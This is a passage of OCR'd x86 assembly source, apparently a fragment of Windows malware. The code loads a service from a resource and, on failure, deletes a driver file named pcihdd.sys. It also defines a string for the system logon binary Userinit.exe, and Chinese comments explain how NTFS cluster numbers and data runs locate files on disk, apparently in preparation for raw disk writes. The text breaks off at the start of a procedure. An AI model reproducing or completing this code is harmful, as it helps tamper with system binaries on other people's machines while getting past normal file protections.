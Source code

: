 OpenSCManagerFailed:    ; nSize
push  100h
lea  eax, @FileName
push  eax    ; lpDst
push  offset Src  ; "%SystemRoot%\system32\drivers\pcihdd.sys"
call  ExpandEnvironmentStringsA
lea  eax, @FileName
push  eax    ; lpFileName
call  DeleteFileA
ret

Exit:
push  10h
push  0    ; lpCaption
push  offset Text  ; "出错"
push  0    ; hWnd
call  MessageBoxA
push  0    ; uExitCode
call  ExitProcess
LoadServiceFromRes  endp

aSystemrootSyst  db '%SystemRoot%System32Userinit.exe',0
;***************************************************************************************************************
;簇是磁盘使用的基本单元。 组成一个簇的扇区数总是2的幂数，当卷被格式化时此数值是固定的。 此数值称为簇要素，
;通常用字节引用，如8KB，2KB。 NTFS通过每件事的逻辑簇数来寻址。
;逻辑簇数（LCN）:卷里的每个簇都给定了一个顺序号，这是它的逻辑簇数。LCN0(零)指向卷的第一个簇（引导扇区）。
;                用LCN乘以簇的大小就可以算出在卷里的物理偏移量。
;
;实际簇数（VCN）:一个非常驻的流的每个簇都给定了一个顺序号，这是它的实际簇数。VCN0(零)指向这个流的第一个簇。
;               要定位磁盘上的流，就必须把VCN转换成LCN.这是在数据运转的帮助下完成的。
;
;数据运转:每个LCN的连续模块都被赋予了一个数据运转，它包含一个VCN，一个LCN和一个长度。
;         当NTFS需要在磁盘上找到一个对象时，就查看数据运转中的VCN来得到LCN。

;其他信息:
; 1)当卷被格式化时可以选择簇的大小。
; 2)一个卷的簇的大小存储在$Boot里。也定义了此值在一个MFT文件记录和一个索引记录的簇里。
; 3)如果扇区数在用，NTFS通过引用簇数可以寻址更大的磁盘。

;下面是一个关于允许和默认簇的大小的列表：

;Windows NT
;    512 bytes, 1KB, 2KB or 4KB
;Windows 2000, Windows XP
;   512 bytes, 1KB, 2KB, 4KB, 8KB, 16KB, 32KB or 64KB

;卷的大小   默认的簇的大小
;< 512MB   Sector size
;< 1GB    1KB
;< 2GB    2KB
;> 2GB    4KB
;***************************************************************************************************************
DoMyWork proc  lpFileName   ;成功返回值为0
